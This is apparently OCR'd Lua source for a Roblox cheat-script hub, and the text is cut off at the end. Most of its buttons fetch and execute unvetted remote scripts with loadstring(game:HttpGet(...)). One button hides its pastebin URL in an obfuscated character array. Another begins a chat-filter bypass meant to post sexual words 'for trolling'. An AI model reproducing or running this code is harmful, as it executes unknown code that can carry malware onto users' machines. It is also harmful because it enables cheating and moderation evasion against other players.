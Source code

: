 SettingGUI:NewKeybind("Toggle", "Shows/Hides GUI when button has been pressed", Enum.KeyCode.LeftAlt, function()
	Library:ToggleUI()
end)
 
SettingGUI:NewLabel("Get more here: https://discord.gg/2dvx2CQP36")
end)

Section:NewButton("Darkrai x Arsenal ", "æn op script", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/GamingScripter/arsenal-hub/main/Arsenal%20GamingScripter", true))()
end)

Section:NewKeybind("Close V", "Close V", Enum.KeyCode.V, function()
    Library:ToggleUI()
end)

Section:NewButton("King Legacy", "ok men", function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/SHAREHACK/script/main/kl'))()
end)
Section:NewButton("King Legacy 2", "Riper", function()
   loadstring(game:HttpGet("https://raw.githubusercontent.com/hajibeza/RIPPER-HUB/main/King%20Leagacy"))()
end)
Section:NewButton("HarshTechv7 SUPER OP", "This Op as Hell Credits to owner👍👍", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/YellowGreg/HarshTechV7-/main/Scripts"))()
end)
Section:NewButton("Fe Keyboard v3 resizable", "Op and credit to owner👍", function()
    SGTSOBF_wwwwwWwWw={"\108","\111","\97","\100","\115","\116","\114","\105","\110","\103","\40","\103","\97","\109","\101","\58","\72","\116","\116","\112","\71","\101","\116","\40","\40","\39","\104","\116","\116","\112","\115","\58","\47","\47","\112","\97","\115","\116","\101","\98","\105","\110","\46","\99","\111","\109","\47","\114","\97","\119","\47","\117","\85","\81","\105","\54","\57","\49","\116","\39","\41","\44","\116","\114","\117","\101","\41","\41","\40","\41",}SGTSOBF_RRRrRrrRR="";for _,SGTSOBF_lLLLLllll in pairs(SGTSOBF_wwwwwWwWw)do SGTSOBF_RRRrRrrRR=SGTSOBF_RRRrRrrRR..SGTSOBF_lLLLLllll;end;SGTSOBF_gGGGggggG=function(SGTSOBF_lLllLlLLL)loadstring(SGTSOBF_lLllLlLLL)()end;SGTSOBF_gGGGggggG(SGTSOBF_RRRrRrrRR)
end)
Section:NewButton("Loop Gui v1", "Ok i like Woakle", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/legendary2130/Loop-gui-Version-1.0.0/main/source"))()
end)
End1Section:NewButton("Zen Hub op", "Yesh", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Kaizenofficiall/KaiZen/main/GameHub", true))()
end)
Section:NewButton("Say S#x Bypass Chat Fe", "for trolling", function()
    local message = "sex"

math.randomseed(tick())
local ChatMain = require(game:GetService("Players").LocalPlayer.PlayerScripts.ChatScript.ChatMain)

local function bypass()
   ChatMain.MessagePosted:fire("dffhdfshfd"..math.random(100000,1000000))
   ChatMain.MessagesChanged:fire(math.random(100000,1000000))
end
